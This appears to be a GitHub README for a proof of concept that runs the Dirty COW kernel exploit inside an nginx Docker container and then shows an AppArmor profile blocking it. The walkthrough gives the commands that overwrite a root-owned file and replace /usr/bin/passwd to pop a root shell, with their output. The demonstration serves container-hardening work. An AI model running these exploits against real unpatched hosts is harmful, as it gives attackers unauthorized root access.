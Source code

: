 # Docker Monitoring Logging and Alerting POC

```
Prerequisites:
- git installed

```

## What the POC entails and why

First let's start with the why ? This POC is going to use the [`dirtyc0w`](https://dirtycow.ninja/) kernel [`exploit`](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) to do privilege escalation inside the standard [`nginx`](https://hub.docker.com/_/nginx/) image. 

The only modifications
to the image I made is added a non root user lovingly called hacker to the exploit files. To see the make up of the image please see the [`Dockerfile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/dirtyc0w/Dockerfile). Now for the most important part of the POC, how to mitigate the attack without patching with an [`AppArmor`](https://docs.docker.com/engine/security/apparmor/) profile. Showing the importance of correct container security. With a modified version of the exploit I have been able to escape the container. I did not want to open source this as it is malicious, but the same AppArmor profile was also able to mitigate that vulnerability without any changes.  

To build the environment we will build a Vagrant box that is running a Ubuntu 16.04 server, with kernel version 4.4.0-21-generic.This is to mimic a normal server running in either a cloud environment or bare metal.
On the server we will install the latest version of Docker (1.12.3) and set the daemon with the following configuration ` -H tcp://127.0.0.1:4243 -H unix:///var/run/docker.sock --ip-forward=true --iptables=true --ip-masq=true\">>/etc/default/docker` These are some default security settings that make sure the daemon is not accessible outside the host etc. Then we copy the [`AppArmor profile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/nginx-docker) to the host OS in the following location `/etc/apparmor.d/containers/docker-nginx` We will run `apparmor_parser ` to make sure we have a valid profile. We will then build the image with a standard Docker build command `docker build -t scottyc/dirtyc0w .` Then run up our container first container without AppArmor with the following command `docker run -p 80:80 -d --name nginx scottyc/dirtyc0w` we will then run the exploits with the user hacker we created in the Docker image and we will firstly write to a file root owns as the user hacker then we will gain root access. We will then kill that container and from the very same image we will spawn a second container using the following command `docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w`. This time we will apply our AppArmor profile that will stop the exploits from working. 

# How to use

To make this as simple as possible I have automated most of the heavy lifting leaving the user to run only a few command. To run the POC please follow the follwoing instructions. 

Firstly 
``
git clone xxxx && cd xxxx
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it
```
vagrant ssh
```
change to the root user
```
sudo -i
```
The first container should be running as part of the build process, we can check this with
```
docker ps
```
You should get something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                         NAMES
db86f1c04483        scottyc/dirtyc0w    "nginx -g 'daemon off"   22 seconds ago      Up 19 seconds       0.0.0.0:80->80/tcp, 443/tcp   nginx
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```
If we cat the file `foo` we see
```
this content is created by root
```
We will now exploit the file `foo`
```
./dirtyc0w foo hacker-was-here
```
It will print out the following to the terminal
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `foo` again
```
hacker-was-here created by root
```
check the permissions again
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```

The permissions have not changed. Now let's gain root access 
```
./cowroot
```
It will print the following 
```
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 54192
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
```

You will have root access to the container

Now exit the container with `exit` and `exit` again. Then remove it with `docker rm -f nginx`

Now let's run our secure container
```
docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w
```
again we will run
```
docker exec -it -u hacker nginx bash
```
Then run the exploits `./dirtyc0w foo hacker-was-here` and `./cowroot` The files will run but no exploits. For fun try to `ping 8.8.8.8` 


# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`

